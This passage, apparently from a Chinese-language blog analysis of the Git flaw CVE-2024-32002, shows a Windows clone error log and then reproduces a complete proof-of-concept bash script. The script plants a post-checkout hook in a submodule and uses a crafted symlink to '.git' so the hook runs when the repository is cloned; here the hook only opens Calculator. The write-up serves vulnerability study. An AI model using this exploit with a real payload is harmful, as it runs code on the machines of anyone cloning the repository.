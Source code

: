 ```
fatal: clone of 'git@github.com:10cks/CVE-2024-32002-hulk.git' into submodule path 'D:/CVE-2024-32002/RCE/test/A/modules/x' failed
Failed to clone 'A/modules/x'. Retry scheduled
fatal: could not create leading directories of 'D:/CVE-2024-32002/RCE/test/A/modules/x': Not a directory
fatal: clone of 'git@github.com:10cks/CVE-2024-32002-hulk.git' into submodule path 'D:/CVE-2024-32002/RCE/test/A/modules/x' failed
Failed to clone 'A/modules/x' a second time, aborting
```  
  
经过多方咨询，我才知道即使在windows上开启了符号链接选项，仍需以管理员权限运行才能够正确的执行符号链接。这也是为什么我花了两天时间一直没有在windows上成功实现任意代码执行的原因  
  
  
最后完整的poc在5月20号被Amal
Murali放出，到这里关于git RCE的分析也就告一段段落了:  
```
#!/bin/bash

# 设置 Git 配置选项
git config --global protocol.file.allow always
git config --global core.symlinks true
# 设置默认分叉为main
git config --global init.defaultBranch main 


# 定义 tell-tale 路径
tell_tale_path="$PWD/tell.tale"

# 初始化 hook 仓库
git init hook
cd hook
mkdir -p y/hooks

# 将恶意代码写入 hook，适配windows环境与mac环境
cat > y/hooks/post-checkout <<EOF
#!/bin/bash
calc.exe
open -a Calculator.app
EOF

# 使 hook 可执行：重要
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# 定义 hook 仓库路径
hook_repo_path="$(pwd)/hook"

# 初始化 captain 仓库
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# 创建符号链接
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..
```